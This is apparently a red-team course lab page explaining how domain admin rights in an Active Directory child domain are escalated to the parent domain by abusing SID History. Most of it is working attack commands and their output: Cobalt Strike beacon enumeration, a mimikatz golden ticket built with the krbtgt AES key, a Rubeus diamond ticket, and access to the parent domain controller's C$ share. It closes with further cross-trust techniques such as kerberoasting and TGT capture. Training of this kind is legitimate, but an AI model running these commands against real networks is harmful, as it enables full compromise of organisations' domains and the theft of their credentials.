 	When a child domain is added to a forest, it automatically creates a transitive, two-way trust with its parent. This be found in the lab where **dev.cyberbotic.io** is a child domain of **cyberbotic.io**.

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> powershell Get-DomainTrust

SourceName      : dev.cyberbotic.io
TargetName      : cyberbotic.io
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : WITHIN_FOREST
TrustDirection  : Bidirectional
WhenCreated     : 2/19/2021 1:28:00 PM
WhenChanged     : 2/19/2021 1:28:00 PM
```

  

**SourceName** is the current domain, **TargetName** is the foreign domain, **TrustDirection** is the trust direction (bidirectional is two-way), and **TrustAttributes: WITHIN_FOREST** let's us know that both of these domains are part of the same forest which implies a parent/child relationship.

If we have Domain Admin privileges in the child, we can also gain Domain Admin privileges in the parent using a TGT with a special attribute called SID History. SID History was designed to support migration scenarios, where a user would be moved from one domain to another. To preserve access to resources in the "old" domain, the user's previous SID would be added to the SID History of their new account. So when creating such a ticket, the SID of a privileged group (EAs, DAs, etc) in the parent domain can be added that will grant access to all resources in the parent.

This can be achieved using either a Golden or Diamond Ticket.

  

### Golden Ticket

The process is the same as creating Golden Tickets previously, the only additional information required is the SID of a target group in the parent domain.

```
beacon> powershell Get-DomainGroup -Identity "Domain Admins" -Domain cyberbotic.io -Properties ObjectSid

objectsid                                   
---------                                   
S-1-5-21-378720957-2217973887-3501892633-512

beacon> powershell Get-DomainController -Domain cyberbotic.io | select Name

Name              
----              
dc-1.cyberbotic.io
```

Create the golden ticket:

```
mimikatz # kerberos::golden /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-21-3263068140-2042698922-2891547269 /sids:S-1-5-21-378720957-2217973887-3501892633-512 /aes256:390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa /startoffset:-10 /endin:600 /renewmax:10080 /ticket:cyberbotic.kirbi
User      : Administrator
Domain    : dev.cyberbotic.io (DEV)
SID       : S-1-5-21-3263068140-2042698922-2891547269
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-378720957-2217973887-3501892633-512 ;
ServiceKey: 390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa - aes256_hmac
Lifetime  : 3/11/2021 2:49:33 PM ; 3/12/2021 12:49:33 AM ; 3/18/2021 2:49:33 PM
-> Ticket : cyberbotic.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

Where:

-   `/user` is the username to impersonate.
-   `/domain` is the current domain.
-   `/sid` is the current domain SID.
-   `/sids` is the SID of the target group to add ourselves to.
-   `/aes256` is the AES256 key of the current domain's krbtgt account.
-   `/startoffset` sets the start time of the ticket to 10 mins before the current time.
-   `/endin` sets the expiry date for the ticket to 60 mins.
-   `/renewmax` sets how long the ticket can be valid for if renewed.

```
beacon> make_token CYBER\Administrator FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\cyberbotic.kirbi
beacon> ls \\dc-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 09:22:26   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     05/06/2021 10:12:58   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     05/17/2021 22:52:56   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     03/25/2021 10:10:50   Shares
          dir     02/19/2021 10:18:17   System Volume Information
          dir     05/15/2021 16:48:31   Users
          dir     05/17/2021 23:15:24   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 448mb    fil     05/25/2021 08:39:37   pagefile.sys
 
 beacon> rev2self
```

### Diamond Ticket

The Rubeus `diamond` command also has a `/sids` parameter, with which we can supply the extra SIDs we want in our ticket.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:512 /sids:S-1-5-21-378720957-2217973887-3501892633-512 /krbkey:390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa /nowrap

[...snip...]

beacon> make_token CYBER\Administrator FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\diamond.kirbi

beacon> ls \\dc-1\c$
[*] Listing: \\dc-1\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 09:22:26   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings

[...snip...]
```

If dev.cyberbotic.io also had a child (e.g. test.dev.cyberbotic.io), then a DA in TEST would be able to use their krbtgt to hop to DA/EA in cyberbotic.io instantly because the trusts are transitive.

There are also other means which do not require DA in the child, some of which we've already seen. You can also kerberoast and ASREProast across domain trusts, which may lead to privileged credential disclosure. Because principals in CYBER can be granted access to resources in DEV, you may find instances where they are accessing machines we have compromised. If they interact with a machine with unconstrained delegation, we can capture their TGTs. If they're on a machine interactively, e.g. over RDP, we can impersonate them just like any other user.